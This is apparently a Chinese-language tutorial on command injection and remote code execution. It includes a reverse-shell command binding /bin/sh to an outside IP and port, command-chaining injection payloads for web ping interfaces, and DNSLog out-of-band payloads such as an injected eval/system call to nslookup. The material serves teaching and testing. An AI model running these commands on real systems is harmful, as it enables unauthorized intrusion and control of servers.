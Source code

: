 ### 反向连接

主动给出控制权，让对方监听

```shell
# linux 绑定 sh 到目标 5566 后等待 5566 连接
ncat -e /bin/sh 47.122.23.131 5566
nc -lvp 5566
```

比如你有个服务器，想要用它来控制一台在局域网内的电脑，但是这样你只能访问到那个局域网的路由器的ip（内网分配的ip当然是没用的），你就得让它反向连接你。

## 带外查询

> 解决数据不回显的另一种策略



## 案例

**防火墙绕过**：

*shell 控制操作符*：`|`管道符号（将左边命令的输出作为右边命令的输入）、`||` 逻辑或（前一句执行失败（即返回非零退出码）后才执行后一句）、`&&` 逻辑与（前一句执行成功后才执行后一句）、`&`后台服务符号（让前一句在后台执行，并立即在前台启动后一句命令。两个命令会同时运行）

（`ping` 用于测试两台网络设备之间的连通性，也可以用于检测网络延迟（Latency）、辅助进行DNS解析等）

```shell
ping 127.0.0.1 | whoami
ping 127.0.0.1 || whoami
ping 127.0.0.1 && whoami
ping 127.0.0.1 & whoami
```

*命令替换（Command Substitution，**仅适用于linux**）* ：先执行反引号（或 `$()`）内部的命令，然后用这个命令的输出来替换掉整个表达式（现代脚本更推荐使用 `$()`）。

```shell
echo "Hello, `whoami`. You are currently in `pwd`." 
# Hello, alex. You are currently in /home/alex/documents.
```

不过比起语句的功能，更重要的是管道符号能让命令行执行多个语句！我们常见的路由器、防火墙、入侵检测等设备的web管理界面上一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。这种漏洞叫 **RCE(remote command/code execute，远程系统命令执行)漏洞**，一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口。

如果对方是 windows 系统的话，你就可以给它上传一个 nc ，然后如果对方有防火墙策略的话：有入站策略可以采用反向连接，有出站策略的话可以采用正向连接

**使用dnslog解决数据回传问题的特殊策略**：

DNSLog 是一个用于接收和记录 DNS 查询请求的平台，不过你也可以用它来帮助检测那些无法直接获取回显结果的“盲”型漏洞。

1. 获取子域名：你访问 DNSLog 平台（如 `dnslog.cn`），它会给你分配一个唯一的子域名，例如 `abc123.dnslog.cn`。
2. 构造载荷（Payload）：在测试目标时，你让目标系统去访问一个由这个子域名衍生的地址。例如：
    - 让服务器发起 DNS 请求：`ping sub.abc123.dnslog.cn`        
    - 让服务器加载一个资源：`<img src="http://sub.abc123.dnslog.cn">`
    - 在漏洞利用中注入：`/blind.php?code=eval($_REQUEST['cmd']);&cmd=system('nslookup sub.abc123.dnslog.cn');`        
3. 触发查询：如果目标系统存在漏洞（如命令注入、SSRF、盲注XXE等），它就会执行你嵌入的指令，向 `sub.abc123.dnslog.cn` 发起 DNS 查询。
4. 接收记录：这个查询请求会经过互联网的 DNS 系统层层解析，最终到达 `dnslog.cn` 的权威 DNS 服务器。该平台会记录下所有来自你子域名的查询请求。
5. 验证漏洞：你刷新 DNSLog 平台的页面，如果看到一条关于 `sub.abc123.dnslog.cn` 的查询记录，就证明目标系统成功执行了你的指令，漏洞真实存在！
